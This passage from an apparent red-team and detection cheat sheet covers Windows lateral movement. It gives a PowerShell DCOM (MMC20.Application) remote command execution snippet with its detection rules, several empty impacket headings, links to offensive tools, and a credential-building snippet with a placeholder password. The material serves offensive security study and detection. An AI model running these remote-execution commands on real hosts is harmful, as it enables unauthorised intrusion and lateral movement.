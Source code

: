 ```powershell
$shell = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.x.x.7"))
$shell = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.x.x.7"))
$shell.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c whoami & hostname > c:\temp\test.txt","7")
```

🔎️ DETECT :
```powershell
# DCOM Attack Monitor
Security Event Log / Event ID is any of 4104
and when the event matches Command (custom) contains all of [activator or CreateInstance]
and when the event matches Command (custom) contains any of  [GetTypeFromCLSID or GetTypeFromProgID]
and when the event matches Command (custom) contains any of [9BA05972-F6A8-11CF-A442-00A0C90A8F39 or c08afd90-f2a1-11d1-8455-00a0c91f3880 or 7e0423cd-1119-0928-900c-e6d4a52a0715 or MMC20.Application]

# DCOM Lateral Movement Detection
Security Event Log / Event ID is any of 4104
and when the event matches Command (custom) contains any of [Document.Application.ShellExecute or Document.ActiveView.ExecuteShellCommand]
```

### <a name='impacket'></a>impacket

#### <a name='atexec'></a>atexec
🔑 KEYPOINTS :
#### <a name='dcomexec'></a>dcomexec
🔑 KEYPOINTS :
#### <a name='psexec'></a>psexec
🔑 KEYPOINTS :
#### <a name='smbexec'></a>smbexec
🔑 KEYPOINTS :

### <a name='invoke-SMBRemoting'></a>invoke-SMBRemoting

[Invoke-SMBRemoting](https://github.com/Leo4j/Invoke-SMBRemoting)

### <a name='powershell'></a>powershell

* [PowerMeUp](https://github.com/ItsCyberAli/PowerMeUp)
* [pwncat](https://github.com/calebstewart/pwncat)
* [PSRemoting](https://www.jmvwork.xyz/sysadmin/sys-win-ps-useful-queries/#PSCredentialinitialization)

#### <a name='pscredential'></a>pscredential
```powershell
$zdom = "contoso"
$ztarg_user_name = "john_doe"
$ztarg_user_pass = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$ztarg_user_login = $zdom + "\" + $zlat_user
$ztarg_creds = New-Object System.Management.Automation.PSCredential($ztarg_user_login,$ztarg_user_pass)
```
